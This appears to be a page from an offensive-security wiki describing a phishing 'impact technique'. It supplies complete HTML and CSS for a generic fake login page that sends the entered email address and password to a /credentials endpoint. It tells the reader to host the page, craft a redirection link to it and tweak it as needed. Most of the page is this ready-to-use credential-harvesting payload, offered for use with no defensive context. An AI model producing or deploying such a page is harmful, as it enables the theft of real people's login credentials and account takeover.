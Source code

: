 If all else fails, you can use one of the generic phishing pages below.

This Impact Technique has one step:
1. Host a generic page from below and craft a redirection link.

# 1. Host a generic page
You can use the following HTML as a "Generic" malicious webpage:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <style>
      @import "bourbon";

body {
	background: #eee !important;	
}

.wrapper {	
	margin-top: 80px;
  margin-bottom: 80px;
}

.form-signin {
  max-width: 380px;
  padding: 15px 35px 45px;
  margin: 0 auto;
  background-color: #fff;
  border: 1px solid rgba(0,0,0,0.1);  

  .form-signin-heading,
	.checkbox {
	  margin-bottom: 30px;
	}

	.checkbox {
	  font-weight: normal;
	}

	.form-control {
	  position: relative;
	  font-size: 16px;
	  height: auto;
	  padding: 10px;
		@include box-sizing(border-box);

		&:focus {
		  z-index: 2;
		}
	}

	input[type="text"] {
	  margin-bottom: -1px;
	  border-bottom-left-radius: 0;
	  border-bottom-right-radius: 0;
	}

	input[type="password"] {
	  margin-bottom: 20px;
	  border-top-left-radius: 0;
	  border-top-right-radius: 0;
	}
}

    </style>
</head>
<body>
  <div class="wrapper">
    <form action="/credentials" class="form-signin">       
      <h2 class="form-signin-heading">Please login</h2>
      <input type="text" class="form-control" name="username" placeholder="Email Address" required="" autofocus="" />
      <input type="password" class="form-control" name="password" placeholder="Password" required=""/>      
      <label class="checkbox">
        <input type="checkbox" value="remember-me" id="rememberMe" name="rememberMe"> Remember me
      </label>
      <button class="btn btn-lg btn-primary btn-block" type="submit">Login</button>   
    </form>
  </div>
</body>
</html>
```
- Tweak as necessary. 

See [[Build Phishing Lookalike with HTML Styling#3. Host the lookalike page on an external server]] to host your page and craft a phishing link accordingly. 